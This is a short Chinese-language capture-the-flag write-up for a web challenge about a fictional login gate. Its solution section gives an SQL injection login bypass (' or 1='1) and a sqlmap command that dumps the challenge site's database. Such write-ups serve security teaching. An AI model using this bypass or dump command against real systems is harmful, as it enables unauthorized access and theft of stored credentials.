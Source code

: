 # [Web] WearMe 核心机房 准入验证

- 命题人：You
- 我去，你怎么在这：100 分
- 我测，黑客！：200 分

## 题目描述

<p>在2077年的一个炎热的午后，出题人终于攻下了WearMe的运维控制系统。出题人觉得这套系统很眼熟，通过一系列社工手段得到这是人工智能AGI自主研发的友军验证系统以防人类嘿客在不通过WearMe赛博浏览器进入系统。</p>
<p><img alt="" src="https://oss.wearos.me/file/wmtest/tangpingcup/3.gif"></p>
<p>由于本站使用云火焰（Cloudflare）作为CDN，启动docker后可能需要几秒钟时间从CDN拉取资源，若提示GatewayError请等待30秒再刷新</p>
<p>由于安全问题 您仅能从<strong>中国大陆</strong>访问这道题目</p>
<div class="well">
<strong>第二阶段提示</strong>
<p>
有个东西，叫万能密码~
</p>
</div>

**【网页链接：访问题目网页】**

## 预期解法

### flag1

第一步，打开题目，第二步，按下admin和' or 1='1，第三步，按下登录，好了flag拿到了（？

### flag2

flag2就需要知道密码是啥了，这次比赛使用sqlmap就行。
```console
sqlmap -u "http://DOMAIN_SUFFIX.weilei.software/check.php?data=user:*|pass:*" --dbms=mysql --dump
```